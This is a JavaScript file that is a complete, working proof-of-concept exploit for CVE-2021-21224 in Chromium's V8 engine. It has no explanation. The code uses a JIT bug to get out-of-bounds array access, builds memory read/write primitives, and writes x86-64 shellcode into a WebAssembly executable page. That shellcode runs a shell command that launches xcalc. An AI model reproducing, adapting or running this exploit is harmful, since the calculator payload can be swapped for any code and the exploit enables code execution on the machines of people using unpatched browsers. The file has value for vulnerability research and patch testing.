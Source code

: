 /*
CVE-2021-21224
HEAD @ b2ae9951d4a12b996532022959f44a0cd10184ec

https://bugs.chromium.org/p/chromium/issues/detail?id=1195777
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-21224
*/

let bs = new ArrayBuffer(8);
let fs = new Float64Array(bs);
let is = new BigUint64Array(bs);

const ftoi = x => {
  fs[0] = x;
  return is[0];
}

const itof = x => {
  is[0] = x;
  return fs[0];
}

const hex = x => {
  return '0x' + x.toString(16);
}

function foo(a) {
  let x = -2;
  if (a) x = 1;

  let z = Math.max(x << -0, x >>> -0) + 1;
  if (a) z = 0;

  let cor = new Array(0 - Math.sign(z));
  cor.shift();

  let oob = [1.1, 2.2, 3.3];
  return { cor, oob };
}

for (let i = 0; i < 100000; i++)
  foo(true);

let { cor, oob } = foo(false);
cor[16] = 1337;

/* flt.elements @ oob[10] (upper) */
/* obj.elements @ oob[22] (upper) */
let flt = [1.1];
let tmp = {a: 1};
let obj = [tmp];

function addrof(o) {
  let a = ftoi(oob[22]) >> 32n;
  let b = ftoi(oob[10]) & 0xffffffffn;
  oob[10] = itof((a << 32n) + b);
  obj[0] = o;
  return (ftoi(flt[0]) & 0xffffffffn) - 1n;
}

function read(p) {
  let a = ftoi(oob[10]) & 0xffffffffn;
  oob[10] = itof(((p - 8n + 1n) << 32n) + a);
  return ftoi(flt[0]);
}

function write(p, x) {
  let a = ftoi(oob[10]) & 0xffffffffn;
  oob[10] = itof(((p - 8n + 1n) << 32n) + a);
  flt[0] = itof(x);
}

let wasm = new Uint8Array([
  0x00, 0x61, 0x73, 0x6d, 0x01, 0x00, 0x00, 0x00, 0x01, 0x85, 0x80, 0x80, 0x80,
  0x00, 0x01, 0x60, 0x00, 0x01, 0x7f, 0x03, 0x82, 0x80, 0x80, 0x80, 0x00, 0x01,
  0x00, 0x04, 0x84, 0x80, 0x80, 0x80, 0x00, 0x01, 0x70, 0x00, 0x00, 0x05, 0x83,
  0x80, 0x80, 0x80, 0x00, 0x01, 0x00, 0x01, 0x06, 0x81, 0x80, 0x80, 0x80, 0x00,
  0x00, 0x07, 0x91, 0x80, 0x80, 0x80, 0x00, 0x02, 0x06, 0x6d, 0x65, 0x6d, 0x6f,
  0x72, 0x79, 0x02, 0x00, 0x04, 0x6d, 0x61, 0x69, 0x6e, 0x00, 0x00, 0x0a, 0x8a,
  0x80, 0x80, 0x80, 0x00, 0x01, 0x84, 0x80, 0x80, 0x80, 0x00, 0x00, 0x41, 0x2a,
  0x0b
]);

let module = new WebAssembly.Module(wasm);
let instance = new WebAssembly.Instance(module);

let rwx = read(addrof(instance) + 0x68n);

/* DISPLAY=':0.0' xcalc */ 
let shellcode = new Uint8Array([
  0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x99, 0x50, 0x54,
  0x5f, 0x52, 0x66, 0x68, 0x2d, 0x63, 0x54, 0x5e, 0x52, 0xe8, 0x15, 0x00, 0x00,
  0x00, 0x44, 0x49, 0x53, 0x50, 0x4c, 0x41, 0x59, 0x3d, 0x27, 0x3a, 0x30, 0x2e,
  0x30, 0x27, 0x20, 0x78, 0x63, 0x61, 0x6c, 0x63, 0x00, 0x56, 0x57, 0x54, 0x5e,
  0x6a, 0x3b, 0x58, 0x0f, 0x05
]);

let buf = new ArrayBuffer(shellcode.length);
let view = new DataView(buf);

write(addrof(buf) + 0x14n, rwx);

for (let i = 0; i < shellcode.length; i++)
  view.setUint8(i, shellcode[i]);

instance.exports.main();
